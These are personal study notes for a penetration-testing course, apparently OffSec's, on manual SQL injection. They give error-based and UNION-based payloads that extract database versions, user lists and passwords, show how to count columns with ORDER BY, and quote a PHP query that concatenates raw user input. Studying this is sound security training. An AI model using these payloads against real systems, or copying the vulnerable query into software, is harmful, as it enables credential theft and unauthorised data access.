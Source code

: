 ## 10.1 SQL Theory and Databases
	
###### See tool notes under [[MS SQL]] and [[MySQL]]


## 10.2 Manual SQL Exploitation

#### Identifying SQLi via Error Based Payloads
prematurely terminate sql statement:
```
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```
	This will give first user in the database whether or not the user name offsec exists

![[Pasted image 20230822190838.png]]
```
SELECT plugin FROM mysql.user WHERE user='offsec';
```

Would work with MS SQL in getting the version number:
```
' or 1=1 in (select @@version) -- //
```
Dump all users in a MS SQL database injection attack:
```
' or 1=1 in (SELECT * FROM users) -- //
```
```
' or 1=1 in (SELECT password FROM users) -- //
```
```
' or 1=1 in (SELECT password FROM users where username ='admin') -- //
```

#### UNION Based Payloads
```
For UNION SQLi attacks to work, the injected UNION query has to include the same number of columns as the original query, and the data types need to match for each column. To demonstrate this concept, let’s test a web application with a preconfigured SQL query
```

query fetches all the records from the customers table. It also includes the LIKE2 keyword to search any name values containing our input that are followed by zero or any number of characters, as specified by the percentage (%) operator:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

**Before attack, we need to know EXACT number of columns. like this:
```
' ORDER BY 1-- //
```
keep increasing column value by 1 until you get an error, like "unknown column '6'"

Attempt our first attack by enumerating the current database name, user, and MySQL version:
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

#### Blind SQL Injections

## 10.3 Manual and Automated Code Execution


![[Pasted image 20231127193718.png]]